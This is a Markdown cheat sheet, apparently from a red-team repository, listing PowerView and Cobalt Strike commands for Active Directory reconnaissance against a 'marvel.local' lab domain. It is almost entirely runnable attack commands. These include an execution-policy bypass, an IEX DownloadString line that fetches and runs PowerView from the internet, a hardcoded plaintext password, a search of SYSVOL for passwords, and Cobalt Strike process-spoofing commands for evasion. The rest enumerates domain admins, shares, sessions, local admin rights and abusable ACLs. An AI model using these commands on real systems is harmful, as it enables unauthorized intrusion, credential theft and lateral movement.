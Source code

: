 ## INFO0

### Pre-Commands
```
runas /netonly /user:marvel.local\user1 powershell
powershell -exec bypass
Import-Module .\PowerView.ps1
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1");
```

### Use alternative creadential for any function
```
$SecPassword = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('marvel.local\user3', $SecPassword)
Get-DomainUser -Credential $Cred
```

### Search on Interesting Keywords Inside Files on Shares
```
findstr /spin /c:"password" \\hydra-dc\sysvol\*
```

### Cobalt Strike
```
powershell-import /root/PowerView.ps1
ppid 392
spawnto x64 C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
powerpick Get-Domain
```

## INFO1

### Domain Info
```
Get-Domain
Get-Forest
Get-DomainController
```

### Password Policy
```
Get-DomainPolicy | select -ExpandProperty systemaccess
```

### Enumerate Domain Users
```
Get-DomainUser | select cn,samaccountname,description,pwdlastset,badpwdcount
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}
```

### Enumerate Domain Groups
```
Get-DomainGroup *admin* | select cn,samaccountname,description,member,memberof
```

### Enumerate Domain OUs
```
Get-DomainOU | select name,description,whencreated,whenchanged,gplink
```

### Enumerate Domain Computers
```
Get-DomainComputer | select dnshostname,operatingsystem,pwdlastset
```

### Enumerate Domain Group Members
```
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select groupname,membername,memberobjectclass
```

### Enumerate <User/Group> Groups
```
Get-DomainGroup -MemberIdentity <User/Group> | select samaccountname
```

## INFO2

### Enumerate Open Shares
```
Get-NetShare -ComputerName WorkStation1
```

### Enumerate Open Shares on All Domain Computers (Get-DomainComputer + Get-NetShare)
```
Find-DomainShare -Verbose
```

### Enumerate Open Shares That You Have Read Access
```
Find-DomainShare -CheckShareAccess -Verbose
```

### Search for Interesting Files Inside Shares
```
Find-InterestingFile -Path \\hydra-dc\sysvol\
```

### Find Interesting Domain Share Files (Find-DomainShare + Find-InterestingFile)
```
Find-InterestingDomainShareFile -Verbose
```

## INFO3

### Enumerate Local Groups
```
Get-NetLocalGroup –ComputerName WorkStation1
```

### Enumerate Local Group Members Of Administrators Group on Computer WorkStation1
```
Get-NetLocalGroupMember -ComputerName WorkStation1 -GroupName "Administrators"
Get-NetLocalGroupMember -ComputerName WorkStation1 -GroupName "Remote Desktop Users"
```

### Enumerate Local Group Members on All Domain Computers (Get-DomainComputer + Get-NetLocalGroupMember)
```
Find-DomainLocalGroupMember -GroupName "Administrators" -Verbose
```

### Test Admin Access Rights on a Computer
```
Test-AdminAccess -ComputerName workstation1
```

### Test Admin Access Rights on All Domain Computers (Get-DomainComputer + Test-AdminAccess)
```
Find-LocalAdminAccess -Verbose
```

## INFO4

### Enumerate Users Sessions
```
Get-NetSession -ComputerName WorkStation1
```

### Enumerate LoggedOn Users
```
Get-NetLoggedon -ComputerName workstation1
```

### Get Domain Admins + Run Get-NetSession/Get-NetLoggedon on Every Domain Computer + Comparing The Result
```
Find-DomainUserLocation -Verbose
```

### Perform Against Highly Traffic Servers (Get-DomainFileServer, Get-DomainDFSShare, Get-DomainController)
```
Find-DomainUserLocation -Stealth -Verbose
```

### Run Get-NetSession/Get-NetLoggedon on Every Domain Computer Then Printing All The Result
```
Find-DomainUserLocation -ShowAll
```

### Perform Against Different Users or Groups
```
Find-DomainUserLocation -UserGroupIdentity "local_admin"
Find-DomainUserLocation -UserIdentity "ITSupport"
```

## INFO5

### Enumerate All The Domain ACLs For Non BuiltIn Users With Modification Access
```
Find-InterestingDomainAcl -ResolveGUIDs -WarningAction:SilentlyContinue | select IdentityReferenceName,ObjectDN,ActiveDirectoryRights,ObjectAceType
```

### Enumerate all the special ACLs
```
Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner|GenericWrite" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl
```
